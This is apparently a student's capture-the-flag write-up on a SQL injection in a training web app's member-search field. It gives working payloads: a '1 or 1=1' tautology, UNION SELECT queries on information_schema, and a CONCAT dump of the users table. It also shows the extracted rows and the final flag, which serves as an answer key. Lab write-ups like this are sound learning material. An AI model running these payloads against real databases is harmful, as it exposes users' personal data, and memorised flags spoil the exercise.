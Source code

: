 this breach is duo to sql injection vornability in the earch for members input, 
i was able to navigate throught the database and get the database tables and columns

after that i was able to get my hands on the users datatable columns
with that i was first able to get all the users first name and surename using "1 or 1=1"
so the query will end up being like this "select first_name, last_name from users where id = 1 or 1=1"
1 = 1 will resolve to true, after that the query response will get us all the users first_name and last_name

after that i was still not able to get any flage the response was just 
|ID: 1 or 1=1 
First name: one
Surname : me

ID: 1 or 1=1 
First name: two
Surname : me

ID: 1 or 1=1 
First name: three
Surname : me

ID: 1 or 1=1 
First name: Flag
Surname : GetThe|

here we can notice that there is a user with the first name as flag and surname as getthe


after that i was able to use a union operation to retrive all the users columns values
using this query "1 or 1=1 union select 1, CONCAT(user_id, 0x20, first_name, 0x20, last_name, 0x20, town, 0x20, country, 0x20, planet, 0x20, Commentaire, 0x20, countersign) from users"
with that i was able to access the user with id 5 data 
it was : 
user_id | first_name  | last_name    | town   | country   | planet    | Commentaire    | countersign
5       | Flag        | GetThe       | 42 42 42 Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 5ff9d0165b4f92b14994e5c685cdce28

i was not able to make sense of this data but what i ended up shoud be doing is
decrypt 5ff9d0165b4f92b14994e5c685cdce28 (its the encryption of the word FortyTwo using md5 hashing algorithm)
convert the word to all lowercase characters FortyTwo -> fortytwo
and encrypted fortytwo using sh-256 hasing algorithm
so i ended up with 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 as the flag

// retrieve the database tables names
1 union SELECT table_name, table_name FROM information_schema.tables

// retrieve the database tables columns names
1 UNION select table_name, column_name FROM information_schema.columns

// retrive all the data from the users datatable
1 or 1=1 union select 1, CONCAT(user_id, 0x20, first_name, 0x20, last_name, 0x20, town, 0x20, country, 0x20, planet, 0x20, Commentaire, 0x20, countersign) from users